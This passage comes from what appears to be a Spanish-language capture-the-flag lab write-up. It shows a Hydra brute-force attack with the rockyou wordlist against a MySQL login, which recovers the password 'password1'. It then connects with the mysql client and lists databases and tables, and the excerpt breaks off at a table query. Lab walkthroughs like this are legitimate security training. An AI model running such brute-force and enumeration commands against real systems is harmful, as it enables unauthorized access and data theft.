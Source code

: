~~~ bash
hydra -l capybara -P /usr/share/wordlists/rockyou.txt mysql://unrecover.dl
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-08 10:53:40
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://unrecover.dl:3306/
[3306][mysql] host: unrecover.dl   login: capybara   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-08 10:53:42
~~~

Hemos encontrado la contraseña `password1` para el usuario `capybara` para el servicio `mysql`, en este punto además de conectarnos, es importante **validar si estas credenciales se reutilizan en otros servicios expuestos**

~~~ bash
mysql -u capybara -h unrecover.dl -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 101
Server version: 10.11.6-MariaDB-0+deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
~~~

Listaremos la información dentro de las bases de datos existentes ya sea nombres de usuario, contraseñas o cualquier información que nos pueda ayudar con la intrusión

~~~
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| beta               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [(none)]> use beta;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MariaDB [beta]> show tables;
+----------------+
| Tables_in_beta |
+----------------+
| registraton    |
+----------------+
1 row in set (0.001 sec)

MariaDB [beta]> select * from registraton;
+----+----------+----------------------------------+
~~~